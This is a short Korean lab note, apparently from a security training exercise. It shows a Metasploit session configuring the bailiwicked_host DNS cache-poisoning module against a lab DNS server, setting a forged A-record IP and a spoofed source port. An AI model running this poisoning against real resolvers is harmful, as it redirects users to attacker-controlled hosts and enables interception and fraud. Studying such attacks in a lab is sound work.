



# DNS Attack

<br>

구성도



<br>

Kali -> Attack





```
msf6 auxiliary(spoof/dns/bailiwicked_host) > set hostname www.kh00.kh
hostname => www.kh00.kh (A 레코드 문자열)
msf6 auxiliary(spoof/dns/bailiwicked_host) > set NEWADDR 200.200.200.254
NEWADDR => 200.200.200.254 (A 레코드 IP주소)
msf6 auxiliary(spoof/dns/bailiwicked_host) > set RHOST 172.16.0.105 (공격대상 DNS)
RHOST => 172.16.0.105
msf6 auxiliary(spoof/dns/bailiwicked_host) > set srcport 53 (root hint 인척) 
srcport => 53
```

<br>

